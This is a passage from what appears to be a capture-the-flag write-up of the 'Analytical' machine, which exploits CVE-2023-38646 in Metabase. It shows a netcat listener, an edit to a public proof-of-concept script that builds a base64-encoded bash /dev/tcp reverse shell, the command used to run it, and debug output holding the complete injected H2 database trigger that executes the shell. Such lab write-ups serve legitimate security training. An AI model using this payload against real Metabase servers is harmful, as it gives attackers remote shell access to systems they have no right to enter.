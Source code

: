 ```bash
[DEBUG] Response received: {"message":"Vector arg to map conj must be a pair"}
[DEBUG] POST to http://data.analytical.htb/api/setup/validate failed with status code: 400
```

with a listener : 

```bash
rlwrap -cAr nc -lvnp 4444
```

Most of PoC and exploits fails with this kind of error "Vector arg to map conj must be a pair".

We can find a fix for this issue :

[https://github.com/securezeron/CVE-2023-38646/issues/4](https://github.com/securezeron/CVE-2023-38646/issues/4)

We need to change the code from :

```bash
payload = base64.b64encode(f"bash -i >&/dev/tcp/{listener_ip}/{listener_port} 0>&1".encode()).decode()
```

to:

```bash
payload = base64.b64encode(f"bash -c 'bash -i >& /dev/tcp/{listener_ip}/{listener_port} 0>&1'".encode()).decode()
```

```bash
bash -c '........>& /.....'
```

Let's run once it again :

```bash
python3 ./CVE-2023-38646-Reverse-Shell.py  --rhost http://data.analytical.htb  --lhost 10.10.14.23 --lport 4444
```

```bash
[DEBUG] Original rhost: http://data.analytical.htb
[DEBUG] Preprocessed rhost: http://data.analytical.htb
[DEBUG] Input Arguments - rhost: http://data.analytical.htb, lhost: 10.10.14.23, lport: 4444
[DEBUG] Fetching setup token from http://data.analytical.htb/api/session/properties...
[DEBUG] Setup Token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
[DEBUG] Version: v0.46.6
[DEBUG] Setup token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
[DEBUG] Payload = YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMy80NDQ0IDA+JjEn
[DEBUG] Sending request to http://data.analytical.htb/api/setup/validate with headers {'Content-Type': 'application/json'} and data {
    "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
    "details": {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules": {},
        "details": {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMy80NDQ0IDA+JjEn}|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "test",
```